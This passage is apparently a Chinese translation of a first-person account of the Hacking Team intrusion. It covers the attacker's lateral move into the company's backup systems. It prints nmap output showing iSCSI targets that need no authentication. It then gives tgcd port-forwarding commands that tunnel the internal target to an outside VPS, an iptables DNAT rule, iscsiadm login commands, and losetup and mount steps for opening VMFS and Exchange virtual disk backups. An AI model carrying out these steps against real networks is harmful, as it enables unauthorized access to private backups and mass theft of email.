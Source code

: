这些是做RCS测试的实例。RCS抓到的音频都存储在MongoDB里面。400G种子里面的音频就是来自这里，他们也在监视着自己。

### 0x07 跨网段
比较有趣的是，看着监视器中正在开发恶意软件的HT，尽管这对我的渗透来说并没有什么用。他们不安全的备份系统是下一个敞开的大门。根据他们自己的文档，他们的iSCSI系统应该在一个分离的网段，但是却在`192.168.1.200/24`网段被nmap扫描出来了：

```sh
...
3260/tcp open  iscsi?
| iscsi-info:
|   Target: iqn.2000-01.com.synology:ht-synology.name
|     Address: 192.168.200.66:3260,0
|_    Authentication: No authentication required
 
Nmap scan report for synology-backup.hackingteam.local (192.168.200.72)
...
3260/tcp open  iscsi?
| iscsi-info:
|   Target: iqn.2000-01.com.synology:synology-backup.name
|     Address: 10.0.1.72:3260,0
|     Address: 192.168.200.72:3260,0
|_    Authentication: No authentication required
```

iSCS需要一个核心模块，这个核心模块在我的嵌入式系统中很难编译。所以我准备把端口转发出来以便于能够在VPS上挂载。

```sh
VPS: tgcd -L -p 3260 -q 42838
Sistema embebida: tgcd -C -s 192.168.200.72:3260 -c VPS_IP:42838
 
VPS: iscsiadm -m discovery -t sendtargets -p 127.0.0.1
```

iSCSI发现了iqn.2000-01.com.synology，但是在挂载的时候出现了一些问题，它的地址同时是192.168.200.72和127.0.0.1。
解决办法是：

```sh
iptables -t nat -A OUTPUT -d 192.168.200.72 -j DNAT --to-destination 127.0.0.1
```

然后：

```sh
iscsiadm -m node --targetname=iqn.2000-01.com.synology:synology-backup.name -p 192.168.200.72 --login             
```


至此，文件系统现身了！挂载上去：

```sh
vmfs-fuse -o ro /dev/sdb1 /mnt/tmp
```

然后就可以发现若干个虚拟机的安全备份了，邮件服务器看起来很有吸引力。尽管他太大了，还是可以远程挂载上来，搜索我们想要的东西：

```sh
$ losetup /dev/loop0 Exchange.hackingteam.com-flat.vmdk
$ fdisk -l /dev/loop0
/dev/loop0p1            2048  1258287103   629142528    7  HPFS/NTFS/exFAT
 
entonces el offset es 2048 * 512 = 1048576
$ losetup -o 1048576 /dev/loop1 /dev/loop0
$ mount -o ro /dev/loop1 /mnt/exchange/
```
